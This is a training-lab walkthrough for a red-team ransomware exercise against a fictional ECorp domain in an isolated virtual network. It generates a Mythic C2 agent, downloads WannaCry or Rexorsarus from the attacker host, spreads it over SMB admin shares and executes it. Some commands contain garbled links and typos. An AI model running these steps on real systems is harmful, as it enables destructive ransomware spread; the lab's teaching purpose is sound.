# Mr. Robot Exercise: Data Destruction Part 1

## Introduction

Today we will conduct the Mr. Robot (Red Team) task of data destruction (ransomware) attack against the ECorp network. In the next session we will be in the Blue Team role and look at the telemetry created and discuss how we can analyze a ransomware attack.  

## WARNING

We will be using real malware that can harm your host system. Follow the instructions very carefully to avoid the malware escaping your virtual lab network. We will modify our lab setup to ensure that nothing will go wrong. You have 2 options. You can download Wannacry ransomware, which is not forgiving if you make a mistake or you can download Rexorsarus, which is crafted to only XOR files in a specific directory, which makes it easier to recover data if it is executed by accident. **If you are not fully comfortable running the malware, do not do it.** The telemetry created by the attack will be provided next week, so you can still analyze it.  **Neither Masterschool nor I are responsible for any mistakes you make, such as deploying ransomware on your host or home network.**

1. Download one of the password protected zip files from the link below to your **Kali VM**. **Do not download it to your host system**. Once they are downloaded we will set up an isolated network that will ensure the malware can not spread outside of the virtual network.

[Ransomware.wannacry.exe.malz.7z](Screenshots/07-DataDestruction/Ransomware.wannacry.exe.malz.7z)

[Rexorsarus.zip](Screenshots/07-DataDestruction/Rexorsarus-RE1-Win64.zip)

1. Go to VirtualBox Manager and select “Tools” and then select Create. 



1. Configure the adaptor manually. Set the IP address to 10.6.6.1 and the Network Mask to 255.255.255.0.  This will create a unique network range that we can use when running malware. Please confirm that your home network or any virtual networks are not using this IP range.  



1. Select the DHCP tab and confirm the following configuration for your DHCP server. 
    1. Server Address: 10.6.6.2
    2. Server Mask: 255.255.255.0
    3. Lower Address Bound: 10.6.6.3
    4. Upper Address Bound: 10.6.6.254
    
    Then select “Apply”. This will ensure all your VMs will get an IP address between 10.6.6.3 and 10.6.6.254.
    
    
    
2. Ensure all your VMs are powered down. 
3. Go to VirtualBox Manager and change the network adaptor configuration for each of your VMs you will be using. Note that we will not be using pfSense because we are using VirtualBox’s DHCP server. Change the Network Adaptor to “Host-Only Adapter” and then select “VirtualBox Host-Only Ethernet Adaptor #2”. 



1. Ensure there are no other Adaptors enabled.



1. Ensure you have no Shard Folders between your VMs and your host machine. If you do, delete it.



1. Power up each VM and confirm the IP address is in the 10.6.6.* range.



1. Ensure that shared clipboard and Drag ‘n’ Drop is disabled on every VM.

1. As a final check, try to ping 8.8.8.8 on each VM. YOU SHOULD NOT BE ABLE TO. 



1. Attempt to ping one of the Windows VMs or the DC you are using for the exercise. You should be able to. 



This ensures that you do not have Internet connectivity and the network configuration is working and each VM used for the exercise can communicate.

We have now set up a safe environment to conduct the exercise.

### **Command and Control**

Since we changed our network configuration and IP addresses, we need to create a new C2 payload that will call back to our new IP address for the Mythic server (Kali VM). My new Kali IP is 10.6.6.6.

If you still have Mythic installed on your Kali VM go to the web interface by typing in https://localhost:7443. 

Then go to the Payloads page. In the Actions dropdown select Generate New Payload.



Select Windows from the dropdown and then select Next.



For payload type, use Apollo and the output should be WinExe. Then select Next.


Select the double arrows to use all available commands and then select Next.



Move the slider for HTTP and then change the Callback Host to the new IP Address, ensure you lead with http and not https. Then select Next.



Change the name. I called it fsociety.exe and select Create Payload.



When it is completed, go back to the Payload page and download the new payload (fsociety.exe).



From the terminal, move the new payload to the home directory. This will make it easier to use the webserver to deliver the payload.

```go
sudo mv /home/elliot/Downloads/fsociety.exe /home/elliot/fsociety.exe
```

Ensure the file was moved by running the ls command.



Since we already had an active C2 before making the changes to our network infrastructure for the purposes of ensuring that ransomware will not escape our virtual environment, we will have the victim use the webserver to move the C2 agent to the victim machine.

Set up a webserver on Kali Linux.

```go
python3 -m http.server
```



On the victim machine, open a web browser and navigate to httP://10.6.6.6:8000. Select fsociety.exe and download it.



Once downloaded, execute the file. 

Go to your Mythic server. As seen below we have an active C2 connection.



Move the ransomware from the Downloads folder (we downloaded it earlier) to the users home directory.

```go
sudo mv /home/elliot/Downloads/Ransomware.wannacry.exe.malz.7z /home/elliot/Ransomware.wannacry.exe.malz.7z
```

We can unzip the ransomware using the command below. The password is “infected”. 

```go
7z x Ransomware.wannacry.exe.malz.7z 
```



As seen below the file was unzipped.



Notice the .malz extension. This is used as another layer of protection to prevent it from executing by accident. If it was double clicked with that extension, it would not execute. However, we can not deploy it to our victims with that extension, so we will rename it. Remember, with Linux we rename it using the mv command to the same directory it is already in. As seen below:

```go
mv Ransomware.wannacry.exe.malz Ransomware.wannacry.exe
```

When we run “ls” we see the name was changed. The ransomware is now ready to be deployed.



## Deploying the Ransomware

From the Mythic C2 server run the command below

```go
powershell Invoke-WebRequest -Uri "[http://10.6.6.6:8000/Ransomware.wannacry.exe](http://10.6.6.6:8000/fsociety.exe)" -OutFile "C:\Users\tcolby\Desktop\Ransomware.wannacry.exe"
```



As seen above the ransomware was written to the Desktop of the tcolby machine.

Now move the ransomware to wrk-price.

```go
cp "C:\Users\tcolby\Desktop\Ransomware.wannacry.exe" "\\wrk-price.Ecorp.local\C$\Users\pprice\Desktop\Ransomware.wannacry.exe"
```



Now move the ransomware to the Domain Controller

```go
cp "C:\Users\tcolby\Desktop\Ransomware.wannacry.exe" "\\Ecorp-DC.Ecorp.local\C$\Users\Administrator\Desktop\Ransomware.wannacry.exe"
```



The ransomware is now deployed across the network. 

We are now ready to launch the ransomware. Ensure that you have a snapshot of each VM to revert back to.

## Executing the Ransomware

We will execute the ransomware from the Mythic C2 server. Since we are using SMB from the wrk-colby machine it should be the last system we infect. We will start with the wrk-price system first. Use the command below to execute it. 

```go
powershell "Start-Process -FilePath '\\wrk-price.Ecorp.local\C$\Users\pprice\Desktop\Ransomware.wannacry.exe'"
```



Note that several minutes passed between executing the ransomware and it completed encrypting the files and presented the screen shown above.

Use the command below to execute the ransomware on the Domain Controller.

```go
powershell "Start-Process -FilePath '\\Ecorp-DC.Ecorp.local\C$\Users\Administrator\Desktop\Ransomware.wannacry.exe'"
```



Lastly, we can run it on wrk-tcolby

```go
powershell "Start-Process -FilePath 'C\Users\tcplby\Desktop\Ransomware.wannacry.exe'"
```



# Option 2: Rexorsarus

Move the ransomware from the Downloads folder (we downloaded it earlier) to the users home directory.

```go
sudo mv /home/elliot/Downloads/Rexorsarus-RE1-Win64.zip /home/elliot/Rexorsarus-RE1-Win64.zip

```



We can unzip the ransomware using the command below. The password is “infected”. 

```go
unzip Rexorsarus-RE1-Win64.zip 
```



As seen below the file was unzipped.



## Deploying Rexorsarus

From the Mythic C2 server run the command below

```go
powershell Invoke-WebRequest -Uri "[http://10.6.6.6:8000/Rexorsarus-RE1.exe](http://10.6.6.6:8000/fsociety.exe)" -OutFile "C:\Users\tcolby\Documents\[Rexorsarus-RE1.exe](http://10.6.6.6:8000/fsociety.exe)"
```



As seen above Rexorsarus was written to the Documents of the tcolby machine.

Now move the Rexorsarus to wrk-price.

```go
cp "C:\Users\tcolby\Documents\[Rexorsarus-RE1.exe](http://10.6.6.6:8000/fsociety.exe)" "\\wrk-price.Ecorp.local\C$\Users\pprice\Documents\[Rexorsarus-RE1.exe](http://10.6.6.6:8000/fsociety.exe)"
```



Now move Rexorsarus to the Domain Controller

```go
cp "C:\Users\tcolby\Documents\Rexorsarus-RE1.exe" "\\Ecorp-DC.Ecorp.local\C$\Shares\SteelMountain\Rexorsarus-RE1.exe"
```



Rexorsarus is now deployed across the network. 

We are now ready to launch Rexorsarus. Ensure that you have a snapshot of each VM to revert back to.

## Executing the Ransomware

We will execute the ransomware from the Mythic C2 server. Since we are using SMB from the wrk-colby machine it should be the last system we infect. We will start with the wrk-price system first. Use the command below to execute it. 

```go
powershell "Start-Process -FilePath '\\wrk-price.Ecorp.local\C$\Users\pprice\Documents\Rexorsarus-RE1.exe'"
```

Note that Rexorsarus failed to run on wrk-pprice



Use the command below to execute the ransomware on the Domain Controller.

```go
powershell "Start-Process -FilePath '\\Ecorp-DC.Ecorp.local\C$\Shares\SteelMountain\Rexorsarus-RE1.exe'"
```



Lastly, we can run it on wrk-tcolby

